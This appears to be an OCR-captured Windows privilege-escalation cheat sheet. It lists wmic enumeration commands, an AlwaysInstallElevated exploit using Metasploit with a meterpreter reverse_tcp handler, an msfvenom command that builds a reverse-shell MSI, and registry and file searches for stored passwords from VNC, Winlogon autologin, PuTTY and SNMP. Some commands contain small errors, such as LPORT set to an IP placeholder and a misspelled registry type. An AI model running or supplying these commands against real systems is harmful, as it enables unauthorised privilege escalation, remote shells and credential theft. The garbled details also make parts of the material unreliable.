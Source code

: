 ```
wmic nic list /format:hform > temp.html

wmic os list /format

wmic server

wmic startup

wmic qfe list /format
```

## AlwaysInstallElevated

```
#Check if AlwaysInstalledElevated is installed (1) or not (0)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

# Metasploit Module, Automatic Process
use exploit/windows/local/always_install_elevated

# Manual Process to Get Elevated Privilege
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f msi > escalate.msi
```

## Searching For Credentials

```
dir unattend.* /s

dir sysprep.* /s

findstr /si "password" *.txt *.ini

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

#SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#Search for password in registry
reg query HKLM /f password /t REG_SG /s
reg query HKCU /f password /t REG_SZ /s
```
